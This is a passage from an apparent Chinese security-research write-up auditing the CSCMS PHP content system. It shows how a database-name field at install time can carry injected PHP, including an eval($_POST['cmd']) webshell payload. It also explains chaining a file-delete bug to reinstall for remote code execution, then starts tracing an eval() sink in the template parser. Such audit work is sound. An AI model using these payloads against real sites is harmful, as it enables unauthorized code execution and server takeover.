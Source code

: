 匹配我们输入的一些数据库常量的值，没有过滤，然后写入Cs\_DB.php文件：

![image-20211228154900156.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-be32428ef00f67ed00d344c68cdc459b0ca04ce1.png)

比如数据库名称，我们可以直接通过拼接插马：

```php
cscms');phpinfo();// 
cscms');eval($_POST[‘cmd’]); //
```

![image-20211228154955439.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-5180c921077e15443b4d80abd6d166d51d492490.png)

![image-20211228155011914.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-f29bba4f0508592e9450e8c43865b54d51a9f787.png)

查看效果：

因为cs\_cscms.php中包含了cs\_db.php，

index.php又包含了Cs\_Cscms.php

所以我们在首页即可触发：

![image-20211228155151518.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-ddd7d82a4d5209f5ef24abe6217c8bcab5b356d6.png)

配合上面的任意文件删除漏洞，删除掉install.lock文件，然后重新安装，即可完成RCE

前台RCE
-----

通过seay的自动审计，定位到Csskins.php的eval函数：

![image-20211228174923278.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-7722ca6da8e372a81ce782fde3aa0a69fa6a56c2.png)

```php
    // php标签处理
    public function cscms_php($php,$content,$str) {
        $evalstr=" return $content";
        $newsphp=eval($evalstr);
        $str=str_replace($php,$newsphp,$str);
        return $str;
    }
```

看一下$content参数是否可以控制。

首先看谁调用了这个方法：

![image-20211228180051697.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-d30c4137e7642b8d72310d13fa8007839be80a7b.png)

![image-20211228180327645.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-42bbb2abe301273f87d1f7025401e31eb206f93a.png)

定位到template\_parse方法：

```php
//解析模板
public function template_parse($str,$ts=TRUE,$if=true,$row=array()) {
    if(empty($str)) msg_txt(L('skins_null'));
    //解析头部、底部、左右分栏
    $str = $this->topandend($str);
    //会员登录框
    $str=str_replace('{cscms:logkuang}',$this->logkuang(),$str);
    //自定义标签
    $str=$this->cscmsopt($str);
    //解析全局标签
    $str=$this->cscms_common($str);
    //数据循环
    $str=$this->csskins($str);
    //数据统计标签
    $str=$this->cscount($str);
```